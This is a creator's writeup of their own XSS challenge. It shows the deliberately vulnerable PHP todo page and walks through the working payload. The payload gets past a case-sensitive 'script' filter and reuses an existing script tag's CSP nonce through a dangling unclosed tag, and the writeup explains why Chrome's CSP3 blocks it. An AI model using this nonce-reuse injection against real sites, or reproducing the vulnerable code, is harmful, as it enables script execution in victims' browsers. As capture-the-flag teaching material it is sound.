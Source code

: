 > :Title shadow=0 0 8px black, color=white
>
> My first XSS challenge - Writeup

> :Author name=Alain, date=14/09/2020

<br>

# The challenge

Two weeks ago I created [my first XSS challenge](https://twitter.com/krial057/status/1300423121351184384). A XSS challenge is similar to a [CTF challenge](https://ctftime.org/ctf-wtf/). Whereas CTF challenges usually consist of complete Websites without a clear goal, a XSS challenge is usually short and the goal is to execute arbitrary Javascript code.

The main obstacle of my XSS challenge consisted of bypassing the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Source Code
The challenge source code was public, so no hidden secrets to find. The following is a shortened version of the challenge source code:
```php | index.php
<?php 
  $nonce = base64_encode(random_bytes(32));
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-".$nonce."'"); // --> Only allow script execution with the right nonce token
?>
<html>
    <body>
        <?php
            $todos = '';
            $todos = $todos."<div> Todo #1 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> Todo #2 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> A TODO supplied by the user over url
            $todo_list = explode("\n", $todos);
            foreach($todo_list as $todo) {
                if(strpos($todo, "script") === false) { // --> Don't allow script injections in todos
                    echo $todo."\n";
                } 
            }
        ?>

        <script nonce="<?php echo $nonce ?>">
                console.log("bla")
        </script>
    </body>
</html>
```

# The solution

## Baby steps

The first thing one should notice is the possibilty to inject arbitrary html using the todo parameter:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> arbitrary HTML injection using ?todo=own_html
```
People not knowing about [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) probably think they could simply provide a `script` element with arbitrary JS. The script tag filter `if(strpos($todo, "script") === false)` could easily be bypassed using `SCRIPT` instead of `script`. However, giving it a try we get the following error in the console:
```js | index.php?todo=<SCRIPT>alert(1)</SCRIPT>
/*~*/ Refused to execute inline script because it violates /*~*/
/*~*/ the following Content Security Policy directive: /*~*/
/*~*/ "script-src 'nonce-FHFXLGv/SdLkQ9CjBaE8s5wiMR3W1yADF+BjNZE+ZNs='". /*~*/
/*~*/ Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), /*~*/
/*~*/ or a nonce ('nonce-...') is required to enable inline execution. /*~*/
```

The only possible way to to execute arbitrary javascript is to add a `nonce` attribute to the `script` tag that is the same as the one defined in the CSP header. As the nonce is randomly generated on each page refresh, it is impossible to set it in advance.

## Getting the nonce

So the big question is: how can we add a script tag with a valid nonce before we know the nonce?
Most common techniques are:
* Exfiltrate the nonce somehow and reuse it
* Force the same nonce using a cached version of the site
* Overwrite the base tag

However, all of these were not possible on my challenge. `default-src` was set to `none`, making nonce exfiltration pretty much impossible. Page caching was disabled and there was no script tag with a relative url, that could have been abused by the base tag.

The main idea was to somehow reuse the same nonce that is already used by the included script. Let's see what would happen if we open a script tag without closing it in front of another script tag:

```html
/*+*/ <script <script nonce="randomlyGeneratedNonce">
     console.log("bla")
</script>
```

Interestingly, the original `<script` is now considered to be an attribute of our newly injected open script tag.
Even better, we can inject our own attributes inside the script tag that has the correct nonce:

```html
/*+*/ <script id="yolo" <script nonce="randomlyGeneratedNonce">
    console.log("bla")
</script>
```

The next big question is, what happens if we provide a `src` attribute. Will it execute the script provided in the `src` attribute or will it run, as before, the content (`console.log`) of the `<script>` element? Let's try it out in Firefox:

```html
/*+*/ <script src="data:,alert(1)" <script nonce="randomlyGeneratedNonce"> /* --> src could also be a URL to a js file and it would also work */
    console.log("bla")
</script>
```
This HTML snippet will actually result in an alert popping up and showing nothing in the console. So `src`has a higher priority than the actual script element content.

Perfect, let's try to pop an alert with my challenge:

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)
```

But nothing happens. Let's inspect the DOM tree:
```html
<SCRIPT src="data:,alert(1)" </div>
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```

The problem is, the todo we add is encapsulated inside a div element:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n";
```
and the `>` of the ending div tag is closing our script tag before the nonce is reached.

However I sneaked a way inside the challenge to remove the ending div tag. Do you remember the filter that removes the `script` tags?
It not only removes the script tag but the whole line in which the script tag is inside:

```php
foreach($todo_list as $todo) {
    if(strpos($todo, "script") === false) { // --> If "script" is contained inside the line, don't echo the whole line.
        echo $todo."\n";
    } 
}
```
by providing a todo with the following content: `<SCRIPT src="data:,alert(1)" \n script`, we can remove the unwanted closing div tag:

```html
<SCRIPT src="data:,alert(1)" 
/*-*/ script </div> // --> This line will be removed as it contains "script"
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```


## The final solution

[Doesn't work in Chrome:](#why-it-doesnt-work-in-chrome--csp-v3)

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)%0ascript
```

# Why it doesn't work in Chrome / CSP v3

At first I was very confused why it wasn't working in Chrome. Chrome was throwing an error that the nonce was incorrect. However, the nonce attribute was set and was correct.(`console.log(script.nonce)` was the same as the nonce set in the CSP header).

It was [@SecurityMB](https://twitter.com/SecurityMB) who pointed me to the following CSP v3 spec: [Nonceable Algorithm](https://www.w3.org/TR/CSP3/#is-element-nonceable). The problem of abusing an already existing script tag's nonce is apprently known and this new spec prevents the mechanic . It does this by chechking for the strings `<script` or `<style` inside a script element's attribute names and values. If it is present it renders the nonce invalid.

Firefox and Safari don't implement this spec yet. Therefore, this mechanic could still be abused in my challenge.
